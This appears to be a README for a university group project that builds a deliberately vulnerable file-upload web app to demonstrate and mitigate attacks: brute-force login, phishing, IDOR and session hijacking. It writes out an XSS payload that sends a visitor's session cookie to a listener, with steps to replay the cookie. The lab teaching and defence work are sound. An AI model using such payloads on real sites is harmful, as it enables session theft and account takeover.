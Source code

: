 # ELEC0138 Group 8 – Security and Privacy challenges in a File Upload App

## Overview

This project aims to analyze and address Security and Privacy challenges in a web-based app (File Upload App) by applying threat modeling and mitigation methods. 

Several cyber attacks targeting common vulnerabilities are designed and implemented. Also, relevant mitigation measures are presented.

A vedio presentation of this project can be seen:(https://youtu.be/MD4qnzbECH4)


## Group Members

- Wenjing Hu
- Zoe Qian
- Andreas Tyrovolas


## Features

```
ELEC0138_Group8/
├── Attack/            # Contains different attacks and relevant mitigation methods
├── static/            # Functions of uploading documents
├── templates/         # HTML templates for the web interface
├── original_system    # Contains original system with no defences files
├── environment.yml    # Conda environment definition
├── initialize_db.py   # Script to initialize the database
├── requirements.txt   # Python package dependencies
├── combined_defences.py # System with all defences implemented
└── system.py          # Main application script

```


## Steps

1. **Clone the Repository**

   ```bash
   git clone https://github.com/Wenjing-1225/ELEC0138_Group8.git
   cd ELEC0138_Group8
   ```


2. **Set Up the Environment**

   Create a Conda environment using the provided `environment.yml` file:

   ```bash
   conda env create -f environment.yml
   conda activate elec0138_group8
   ```


   Alternatively, install dependencies using `requirements.txt`:

   ```bash
   pip install -r requirements.txt
   ```


3. **Run the Application**

   Start the main application:

   ```bash
   python original_system/system.py
   ```


   The web interface should now be accessible at `http://localhost:5000/`.


4. **Run the Attack Simulation**

   - **Brute-force Login Attack**:
     
     1. Edit `brute_force.py` to set the target username (e.g. `victim@example.com`)  
     2. Run `brute_force.py`  
        → The script will simulate password guessing attempts by sending repeated login requests using common passwords.  
        → A valid match will be printed to the terminal once found.  
        > This simulates a real-world brute force scenario using multithreading and common credential dictionaries.

   - **Session Hijacking via XSS**:
     
     1. Register a malicious username like:  
        ```html
        <script>new Image().src="http://localhost:8000/steal?cookie="+document.cookie</script>
        ```
     2. Run `listener.py`  
        → This starts a listener on port 8000 to capture incoming cookies.

     3. When a legitimate user visits the homepage, the malicious script will trigger and send their session cookie to the attacker.
     4. Use `hijack_session.py`  
        → Load the captured cookie and simulate a GET request to `/`, gaining unauthorized access as the victim.
   - **Phishing Simulation**:
     
     1. Run `send_phishing.py`  
        → You can modify the `receiver_email` variable to the desired email address.  
        *Please make sure that you have the recipient’s explicit consent before sending any simulated phishing emails.*

     2. Run `app.py`  
        → This will launch the phishing web application.

   - **IDOR Attack Simulation**:

     1. Run `image_attack.py`  
     2. Stolen images will be stored in a separate folder, stolen_images
        
4. **Run the Defense System**

   - **Phishing Detection System**:

     1. Run `model.py`  
        → This initializes and loads the phishing detection model.

     2. Run `combined_defences.py`  
        → This starts the Flask web interface for users to input URLs and receive detection results in Security Center.

   - **IDOR Defence Strategy**:

     1. Run `combined_defences.py`  
     2. This ensures, session based authentication, strict access control, logging and that filenames are securely hashed


